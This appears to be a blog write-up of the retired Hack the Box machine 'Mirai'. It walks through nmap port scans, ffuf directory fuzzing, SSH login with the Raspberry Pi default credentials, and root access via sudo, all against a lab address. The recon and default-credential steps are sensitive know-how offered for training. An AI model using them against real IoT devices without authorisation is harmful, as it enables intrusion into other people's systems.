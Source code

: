 ```yaml
---
layout: post
title: Hack the Box - Mirai
date: 2020-07-02 20:51:22 +0100
description: Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors.
img: mirai.png
fig-caption: Mirai
categories: HackTheBox
tags: [Easy, Linux, Retired, CTF]
---
```

## Overview
Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/mirai]
└─$ sudo nmap -p22,53,80,1058,32400,32469 10.129.114.18 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 21:12 GMT
Nmap scan report for 10.129.114.18
Host is up (0.016s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1058/tcp  open  nim
32400/tcp open  plex
32469/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
                                                                                                                                                                                                                                             
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/mirai]
└─$ sudo nmap -p22,53,80,1058,32400,32469 -sV 10.129.114.18
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 21:12 GMT
Nmap scan report for 10.129.114.18
Host is up (0.016s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp    open  domain  dnsmasq 2.76
80/tcp    open  http    lighttpd 1.4.35
1058/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.80 seconds
```
After port enumeration there were a couple of interesting ports that could be investigated. However starting with the webserver on port 80, which returns a blank page at the root, we'll start with running a fuzzer.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/mirai]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.114.18/FUZZ            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.114.18/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
```
The fuzzer reveals a couple of interesting pages. Navigating to the admin page we find a raspberry pi admin interface. On seeing this there is a chance the well known default credentials for SSH to Raspberry Pi's may work.
## Foothold
When trying the default credentials it was successful and access was granted.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/mirai]
└─$ ssh pi@10.129.114.18                                   
pi@10.129.114.18's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```
## Privilege Escalation
Privilege escalation was trivial as the user pi was in the sudoers list.
```
pi@raspberrypi:~ $ sudo bash
root@raspberrypi:/home/pi#
```